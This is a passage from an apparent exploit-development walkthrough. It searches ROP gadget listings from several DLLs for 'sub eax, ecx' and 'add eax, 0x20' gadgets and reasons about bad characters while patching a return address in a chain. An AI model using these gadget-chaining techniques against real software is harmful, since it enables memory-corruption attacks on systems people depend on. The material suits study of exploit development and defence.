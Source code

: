 ```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(SUB EAX, ECX).*?((retn  ;)|(ret  ;))" | Select-String -Pattern "(leave)" -NotMatch
ROPS\SNFS.dll.txt:18013:0x1000d2c4: sub eax, ecx ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:18014:0x1000d2ce: sub eax, ecx ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:18015:0x1000d2ba: sub eax, ecx ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:18016:0x1000d2d8: sub eax, ecx ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:10865:0x5100b2d4: sub eax, ecx ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:10866:0x5100b2ca: sub eax, ecx ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:10867:0x5100b2e8: sub eax, ecx ; ret  ;  (1 found)
ROPS\CSMTPAV6.DLL.txt:10868:0x5100b2de: sub eax, ecx ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:18019:0x10014f20: sub ebp, ebx ; or esi, esi ; ret  ;  (1 found)
```

We find that all gadgets require us to store the value within `EAX`, which is problematic, considering we are using the value to store our return address. 

We therefore recap if we don’t have other gadgets which can be moved to patch our return address, with the requirement that the final address are stored in `EAX` as we only have `SUB EAX` instructions to use. Let’s re-evaluate our options:

- move the value in `EAX` to another register and move it back later
- use other gadgets, we will have to work bottom up
- we utilise another gadget which doesn’t need another register e.g. add 0x20 multiple times

```python

+--    NCDAV6.DLL.txt:9272:0x50204f94: sub eax, ecx ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:9273:0x50204f9e: sub eax, ecx ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:9274:0x50204f8a: sub eax, ecx ; ret  ;  (1 found)
+--    NCDAV6.DLL.txt:9275:0x50204fa8: sub eax, ecx ; ret  ;  (1 found)

#can increase by 1 then decrease 0x20 bad char

+--    MTPAV6.DLL.txt:10865:0x5100b2d4: sub eax, ecx ; ret  ;  (1 found)
+--    MTPAV6.DLL.txt:10866:0x5100b2ca: sub eax, ecx ; ret  ;  (1 found)
+--    MTPAV6.DLL.txt:10867:0x5100b2e8: sub eax, ecx ; ret  ;  (1 found)
+--    MTPAV6.DLL.txt:10868:0x5100b2de: sub eax, ecx ; ret  ;  (1 found)

#can double up, 0x0b bad char

+--    MTPAV6.DLL.txt:10864:0x5100f5f9: sub eax, ecx ; pop esi ; pop ebp ; ret  ;  (1 found)

#might be useful

+--    SNFS.dll.txt:17999:0x100113de: sub eax, 0x20 ; pop ebx ; ret  ;  (1 found)
+--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
```

Interestingly we see our very last gadget might be the best option. We would have to utilise the instruction several times, but it would not require other complex register movements. Before we continue we also check if we can perhaps not find other gadgets that can reference our address. So in summary, this instruction moves the 32-bit value stored in the `EAX` register to the memory location pointed to by the `ESI` register.
